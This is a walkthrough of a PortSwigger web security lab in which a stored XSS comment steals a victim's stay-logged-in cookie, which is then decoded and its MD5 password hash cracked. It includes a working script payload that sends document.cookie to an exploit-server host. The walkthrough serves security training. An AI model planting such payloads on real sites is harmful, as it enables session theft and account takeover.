 # Lab 10: Offline password cracking
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

Your credentials: `wiener:peter`

Victim's username: `carlos`

# Solution
> Manual Exploitation
1. With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the stay-logged-in cookie is Base64 encoded.
2. In the *Proxy > HTTP history* tab, go to the `Response` to your login request and highlight the stay-logged-in cookie, to see that it is constructed as follows: `username+':'+md5HashOfPassword`
3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored [XSS payload](https://portswigger.net/web-security/cross-site-scripting/stored), remembering to enter your own exploit server ID: ```<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>```
6. n the exploit server, open the access log. There should be a GET request from the victim containing their stay-logged-in cookie.
7. Decode the cookie in Burp Decoder. The result will be: `carlos:26323c16d5f4dabff3bb136f2460a943`
8. Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`.
9. Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

# Video Solution
[Sommer's YT video](https://youtu.be/23DWqp0EELE)
